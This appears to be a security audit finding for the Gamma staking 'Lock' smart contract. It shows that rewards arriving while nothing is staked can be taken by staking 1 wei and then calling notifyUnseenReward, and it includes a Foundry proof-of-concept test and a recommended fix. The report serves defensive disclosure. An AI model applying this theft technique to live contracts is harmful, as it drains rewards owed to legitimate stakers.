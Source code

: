 Gentle Cobalt Wolverine

medium

# Rewards sent to the `Lock` contract when there are no stakes can be stolen by staking `1 wei`

## Summary

There are times when the `Lock` contract has no stakes, yet rewards are sent to it. In these situations, anyone can stake just `1 wei` of staking tokens and claim the total rewards.

## Vulnerability Detail

When there are no stakes in the contract and rewards are sent to it, these rewards are not added to the cumulated rewards for the tokens. Only when someone stakes and calls `Lock::notifyUnseenReward(...)` can the rewards be earned. There are two main scenarios when there might be no stakes in the contract:

1. Immediately after the deployment of the contract, if no one stakes for a few hours.
2. During an emergency, such as an attack, when users withdraw all their stakes. etc

In these situations, if rewards are sent to the contract, a user can stake `1 wei` of gamma staking tokens, immediately call `Lock::notifyUnseenReward(...)`, and claim all the rewards. This user does not need to worry about new stakers, as new stakers cannot earn rewards distributed before they staked. This is ensured by adjusting the `rewardDebt` at the same time as the `rewards` calculation. Both amounts will cancel each other out, preventing rewards from being added for new stakers. New stakers can only earn rewards distributed after they stake:

```solidity
    function _updateReward(address account) internal {
        uint256 length = rewardTokens.length; // Determine the number of reward tokens.
        Balances storage bal = balances[account]; // Access the balance record for the user.

        for (uint256 i = 0; i < length; ) {
            address token = rewardTokens[i]; // Access each token.
            Reward memory rewardInfo = rewardData[token]; // Get the reward data for the token.

@>            rewards[account][token] += _earned(account, token); // Update the rewards for the user based on what has been earned so far.
@>            rewardDebt[account][token] = rewardInfo.cumulatedReward * bal.lockedWithMultiplier; // Update the reward debt based on the latest reward information.

            unchecked {
                i++;
            }
        }
    }
```

GitHub: [[614-629](https://github.com/sherlock-audit/2024-05-gamma-staking/blob/main/StakingV2/src/Lock.sol#L614C1-L629C6)]


## Impact

A user can steal all the rewards without locking a significant amount of tokens.

## Code Snippet

#### PoC:

```solidity
    function test_stake6() public {
        // New rewards were sent to the contract
        vm.prank(deployer);
        _rewardToken.transfer(address(lock), 1000e18);

        // notify Unseen rewards is called after that
        vm.prank(deployer);
        lock.notifyUnseenReward(rewardTokens);

        // since no stake was present, the rewards will not be added to cumulated rewards
        (, uint256 cumulatedReward,) = lock.rewardData(address(_rewardToken));
        assertEq(cumulatedReward, 0);

        // a user saw the new rewards coming and decides to stake only 1 wei of staking token
        vm.prank(user1);
        lock.stake(1, user1, 0);

        // Just after staking he called notifyUnseenReward
        lock.notifyUnseenReward(rewardTokens);

        // cumulated rewards should be updated
        (,cumulatedReward,) = lock.rewardData(address(_rewardToken));
        assertEq(cumulatedReward / 1e36, 1000e18);

        // then at the same time withdraw all rewards
        vm.prank(user1);
        lock.getAllRewards();

        // rewards should be paid
        console2.log("reward token balance: ", _rewardToken.balanceOf(user1));
        assertEq(_rewardToken.balanceOf(user1), 1000e18);
    }
 ```

## Tool used

- Manual Review
- Foundry

## Recommendation

It is recommended to pause the `Lock::notifyUnseenReward(...)` function until a specific amount of tokens has been staked. Additionally, it would be a good idea to implement a minimum stake limit to avoid these types of scenarios.
